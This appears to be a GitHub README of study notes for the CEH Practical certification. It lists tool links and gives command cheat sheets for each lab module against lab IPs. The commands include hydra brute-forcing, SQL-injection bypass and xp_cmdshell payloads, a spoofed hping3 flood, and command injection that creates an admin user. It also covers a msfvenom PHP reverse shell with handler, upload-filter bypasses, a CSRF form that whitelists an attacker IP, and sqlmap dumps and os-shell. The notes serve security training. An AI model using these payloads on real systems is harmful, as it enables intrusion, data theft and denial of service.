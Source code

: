# CEH Practical Prep
- nmap - https://www.stationx.net/nmap-cheat-sheet/
- sqlmap - https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/
- wireshark - https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/
- wpscan - https://www.poftut.com/how-to-scan-wordpress-sites-with-wpscan-tutorial-for-security-vulnerabilities/
- hydra - https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/
- john - https://linuxconfig.org/password-cracking-with-john-the-ripper-on-linux
- hashcat - https://hashcat.net/wiki/doku.php?id=example_hashes
- responder - https://notsosecure.com/pwning-with-responder-a-pentesters-guide/
- CEHv10 iLAB Videos  https://www.youtube.com/playlist?list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO
- Ethical Hacking Labs -https://github.com/Samsar4/Ethical-Hacking-Labs

##### TryHackMe Rooms
- WebAppSec101 - https://tryhackme.com/room/webappsec101
- Daily Bugle - https://tryhackme.com/room/dailybugle
- Hydra - https://tryhackme.com/room/hydra
- CrackTheHash - https://tryhackme.com/room/crackthehash


##### Discovery
netdiscover -i eth0
fping -a -g subnet 2>/dev/null
nmap -p- 10.10.10.10
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
nmap -sC -sV 10.10.10.10


gobuster -e -u http://10.10.10.10 -w wordlsit.txt
dirb http://10.10.10.10 wordlist.txt

SQLi manually
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

Custom password lists
https://github.com/Dormidera/WordList-Compendium
https://datarecovery.com/rd/default-passwords/
https://github.com/danielmiessler/SecLists

cewl is grabbing words from webpage 
cewl example.com -m 5 -w words.txt 

Brute Force services

hydra
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
    
searchsploit
 - searchsploit “Linux Kernel”
 - searchsploit -m 7618 — Paste the exploit in the current directory
 - searchsploit -p 7618[.c] — Show complete path
 - searchsploit — nmap file.xml — Search vulns inside a Nmap XML result

#### Tools that are used in the iLABS

##### Module 2 - Footprinting and Reconaisance 
tracert/traceroute
ping
firebug plugin (old) for browser (same as web developer tools)
httrack to mirror a site.
path analyzer pro
metasploit 
    - service postgresql start 
    - msfconsole
    - db_status
    - msfdb init
    - service postgresql restart
    - nmap -Pn -sS -A -oX test 10.10.10.0/24
    - db_import Test
    - hosts
    - db_nmap -sS -A 10.10.10.16
    - services
    - use scanner/smb/smb_version
    - set RHOSTS 10.10.10.8-16
    - set THREADS 100
    - run
    - os_flavor
               
##### Module 4 - Enumeration
   GNI (Global Network Inventory
   Advanced IP Scanner
   SuperScan
   Hyena
   NetBios Enumerator
   SoftPerfect Netowrk Scanner
   NMAP
   ZenMAP
   nbtstat
   net use
   nmap -sP  10.10.10.0/24 ping sweet
   nmap -sS 10.10.10.0/24 stealth scan
   nmap -sSV -O synscan with OS detection
   nmap -sSV -O -oN enumeration.txt
   nmap -sU -p 161 10.10.10.0/24
   nmap -sU -p 161 --script=snmp-brute 10.10.10.12
   msfconsole
     - use auxiliry/scanner/snmp/snmp_login
     - set RHOSTS 10.10.10.12
     - run
     - use auxiliary/scanner/snmp/snmp_enum
     - set RHOSTS 10.10.10.12
     - run
   LDAP
   ADExplorer
   enum4linux -u user -p passwd -U 10.10.10.12 full output
   enum4linux -u user -p passwd -o 10.10.10.12 OS version
   enum4linux -u user -p passwd -P 10.10.10.12 password policy
   enum4linux -u user -p passwd -G 10.10.10.12 groups
   enum4linux -u user -p passwd -S 10.10.10.12 share policy 
    
##### Module 5 - Vulnerability Analysis
    
   Nessus
   Nikto -h 10.10.10.12 -Tuning 1
    
##### Module 6 - System hacking
    
   RainbowCrack
   Whitespace Stego
   Snow
   Image Stego
   OpenStego
   QuickStego
    
##### Module 9 - Social Engineering
    
   SET toolkit
    
##### Module 10 - Denial of Service
    
   wireshark - tcp filter
   hping3 -S 10.10.10.10 -a 10.10.10.11 -p 22 --flood
   HOIC (high orbit Ion Cannon)
    
##### Module 11 - Session Hijacking
    
   OWASP ZAP
   Burpsuite
    
###### Module 12 - Hacking Web Servers
    
   skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12
   httprecon
   ID Serve
   nmap -p 21 10.10.10.12
   ftp 10.10.10.12
    - anonymous
    - test@test.com
   hydra -L /root/Desktop/Wordlists/Usernames.txt -P root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.12
   uniscan -u http://10.10.10.12
   uniscan -u http://10.10.10.12 -we (robots.txt and sitemap.txt
   uniscan -u http://10.10.10.12 -d dynamic scan (blind SQL)
    
##### Module 14 Hacking Web Applications
    
   parameter  tampering
    When logged into site with user the following url will show in the address bar 
    http://10.10.10.12/viewprofile.aspx?id=2
    change it to
    http://10.10.10.12/viewprofile.aspx?id=1
    
   Cross Site Scripting (XSS or CSS)
   <script>alert("XSS Alert")</script>
    
   wpscan --url 10.10.10.12 --enumerate u
    
   msfconsole
    - use/auxiliary/scanner/http/wordpress_login_enum
    - set PASS_FILE passwords.txt
    - set RHOSTS 10.10.10.12
    - set RPORT 80
    - set TARGETURI http://10.10.10.12/wordpress
    - set USERNAME admin
    - run
     
   DVWA (damn vulnerable web app)
   
  command injection
    ping | hostname
    ping | net user
    ping | net user TestUser /add
    ping | net localgroup Administrators TestUser /add
    
   Vega
   Acunetix
    
   msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw > shell.php
   msfconsole
    - use/multi/handler
    - set payload php/meterpreter/reverse_tcp
    - set lhost 10.10.10.11
    - set lport 4444
    - run
   when shell connects
    - sysinfo
    
   if .php doesn't upload and says only images like .jpg, .jpeg, .png only allowed rename shell.php to shell.php.jpg
   if that doesn't work, rename to shell.php
   edit in notepad or vim and add GIF98 in the beginning
   
   burpsuite
   
   Upload CSRF
    
   wpscan -u http://10.10.10.12 --enumerate vp
   
   <form  method="POST" action="https://10.10.10.12/wp-admin/options-general.php?page=wordpress-firewall-2%2Fwordpress-firewall-2.php"><script>alert("As an Admin, To Enable additional security to your website. Click Submimt")</script><input type="hidden" name="whitelisted_ip[]" value="10.10.10.11">
   <input type="hidden" name="set_whitelist_ip" value="Set Whitelist IPs" class="button-secondary">
   <input type="submit">
   </form>
   save as Security_Script.html
    
    
##### Module 15 - SQL Injection
    
   blah' or 1=1 --
   blah';insert into login values('jon','pass'); --
   blah';create database newdb; --
   blah';'exec master_xp_cmdshell 'ping 10.10.10.12 -l 65000 -t; --
    
   NStalker
    
   inspect element
   console
   document.cookie
           
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --dbs
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname --tables
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --columns
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --dump
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --os-shell
    
    
##### Module 20 - Cryptography
    
   HashCalc
   md5calc
   cryptoforge
   BCTextEncoder
   IIS Self Signed Certs
   VeraCrypt
   CrypTool
